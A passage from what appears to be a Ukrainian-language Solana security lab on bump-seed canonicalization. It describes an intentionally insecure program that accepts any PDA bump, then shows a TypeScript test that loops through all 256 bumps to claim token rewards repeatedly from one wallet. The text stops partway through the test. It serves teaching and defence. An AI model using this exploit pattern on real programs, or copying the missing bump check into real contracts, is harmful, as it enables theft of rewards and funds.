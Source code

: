 1. `create_user_insecure`
2. `claim_insecure`

Інструкція `create_user_insecure` просто створює новий акаунт за адресою PDA, який походить від публічного ключа підписанта та переданого значення bump.

Інструкція `claim_insecure` мінтить 10 токенів для користувача, а потім позначає винагороди акаунта як отримані, щоб уникнути повторних заявок.

Однак програма не перевіряє, що PDA використовує канонічний bump.

Перегляньте програму, щоб зрозуміти, що вона робить, перед тим як продовжувати.

### 2. Тести незахищених інструкцій

Оскільки інструкції не вимагають явно, щоб `user` PDA використовував канонічний bump, зловмисник може створити кілька акаунтів на один гаманець і отримати більше винагород, ніж дозволено.

Тест у директорії `tests` створює нову пару ключів під назвою `attacker`, щоб представити зловмисника. Потім він пройде через всі можливі bump і викличе `create_user_insecure` та `claim_insecure`. В кінці тест очікує, що зловмисник зміг отримати нагороди кілька разів та заробив більше, ніж 10 токенів на одного користувача.

```typescript
it("Attacker can claim more than reward limit with insecure instructions", async () => {
    const attacker = Keypair.generate()
    await safeAirdrop(attacker.publicKey, provider.connection)
    const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey)

    let numClaims = 0

    for (let i = 0; i < 256; i++) {
      try {
        const pda = createProgramAddressSync(
          [attacker.publicKey.toBuffer(), Buffer.from([i])],
          program.programId
        )
        await program.methods
          .createUserInsecure(i)
          .accounts({
            user: pda,
            payer: attacker.publicKey,
          })
          .signers([attacker])
          .rpc()
        await program.methods
          .claimInsecure(i)
          .accounts({
            user: pda,
            mint,
            payer: attacker.publicKey,
            userAta: ataKey,
          })
          .signers([attacker])
          .rpc()

        numClaims += 1
      } catch (error) {
        if (
          error.message !== "Invalid seeds, address must fall off the curve"
        ) {
          console.log(error)
        }
      }
    }

    const ata = await getAccount(provider.connection, ataKey)
```